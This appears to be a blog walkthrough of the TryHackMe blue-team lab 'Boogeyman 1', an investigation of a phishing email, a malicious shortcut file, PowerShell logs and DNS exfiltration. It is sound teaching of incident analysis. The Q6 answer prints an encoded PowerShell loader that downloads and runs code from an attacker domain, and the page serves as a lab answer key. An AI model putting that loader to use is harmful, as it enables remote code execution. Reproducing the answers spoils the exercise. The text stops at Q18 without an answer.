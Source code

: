```yaml
---
author: Ricard Alcaraz Mancebo
title: Boogeyman 1 - TryHackMe
tags:
  - Cybersecurity
  - Blue Team
languages:
  - wireshark
image:
  url: https://tryhackme-images.s3.amazonaws.com/user-avatars/af7feb2c43a2c7d5f111b98ccbd15048.png
  alt: image
description: My notes solving Boogeyman 1 - TryHackMe
pubDate: 2025-09-10T20:22:00.000+02:00
---
```

## Scenario

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.

## Documents Provided

## Task 2

### Q1: What is the email address used to send the phishing email?

We need to analyze an email, with the name `dump.eml` I will open it using Thunderbird, for the analysis. To find the email adress that send the email we have to take a look at the header of the mail and find `From`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    agriffin@bpakcaging.xyz
  </div>
</details>

### Q2: What is the email address of the victim?

Still loking at the header, we should search for `To` to find the victim that received the email.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    julianne.westcott@hotmail.com
  </div>
</details>

### Q3: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

Now we shoud check the message source to look for this information, you can see going to `View > Message Source` or use `Ctrl+U` in `Thunderbird`. There we have to search for the DKIM-Signature, and once there see if we can find a third-party mail relay. We can search the domain to see if its a possible mail relay if we dont know.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    elasticemail
  </div>
</details>

### Q4: What is the name of the file inside the encrypted attachment?

Now the task asks us to download the attachment, which is a .zip file, and then unzip it to obtain the file inside. The zip its encrypted but in the mail we have the password, once we do it we will obtain the name of the file.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Invoice_20230103.lnk
  </div>
</details>

### Q5: What is the password of the encrypted attachment?

We already know this information, we can find it in the email.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Invoice2023!
  </div>
</details>

### Q6: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

Here we need to use the tool lnkparser, we have an example in the task. Once we do it wi will find a field with the name `Command line arguments`, there we will find a command which last part is some encoded string, we just have to paste that for the answer we dont have to decode it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
  </div>
</details>

## Task 3

### Q7: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

Now we will use the powershell log provided, parsing it with the jq tool. For this one I used this command:
`cat powershell.json | jq '.ScriptBlockText' | less`
I wanted to obtain information related to commands executed, then I had to scroll investigating the results, we will nnot need to scroll too much to find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
cdn.bpakcaging.xyz,files.bpakcaging.xyz
  </div>
</details>

### Q8: What is the name of the enumeration tool downloaded by the attacker?

Using the same query I was searching for the download files, we can add a grep to try to find it easier. In this case its a tool that is open source.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    seatbelt
  </div>
</details>

### Q9: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

Again using the same query, but using the grep command to search for the sq3.exe, and we will find the relative path, in order to complete the path we should find the name of the user, for example you can try to search for the `Users` folder to see if there is an absolute path with the name of the user in it, and then we will have it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
  </div>
</details>


### Q10: What is the software that uses the file in Q3?

We have the answer in the previous question if we take a look at the obtained path.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Microsoft Sticky Notes
  </div>
</details>

### Q11: What is the name of the exfiltrated file?

For this one I didn't find a easier way than looking at the same query as before, just trying to find references to a document or file.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    protected_data.kdbx
  </div>
</details>

### Q12: What type of file uses the .kdbx file extension?

If we don't know the answer we can find it just by searching on the internet about this extension.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    KeePass
  </div>
</details>

### Q13: What is the encoding used during the exfiltration attempt of the sensitive file?

Here we have some help from the attacker that names a variable as the encoding, anyways we can try to understand some of the commands that executes to try to find the encoding.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Hex
  </div>
</details>

### Q14: What is the tool used for exfiltration?

For this one I analized the next commands in order to see if there was something interesting, at some point we will find a code that is reading the file, and also as a hit we have a message of completition, once we find it we will see the tool used.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    nslookup
  </div>
</details>

### Q15: What software is used by the attacker to host its presumed file/payload server?

Now we have to move to `Wireshark`, there we have to take a look at the response of the server where the attacker downloads its files, we already know the two domains that the attacker uses, so checking the headers of the responses we will find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    python
  </div>
</details>

### Q16: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

Filtering by http we will find a clear view if we didnt do it before, now we can try to identify which is the command for the output, from the previous task we already know some of the commands used and which ones outputs information, if we search for it we will find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    POST
  </div>
</details>

### Q17: What is the protocol used during the exfiltration activity?

For this one we just have to see where the HTTP packets ends and which ones starts massively.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    DNS
  </div>
</details>

### Q18: What is the password of the exfiltrated file?

Extract the data from DNS querys
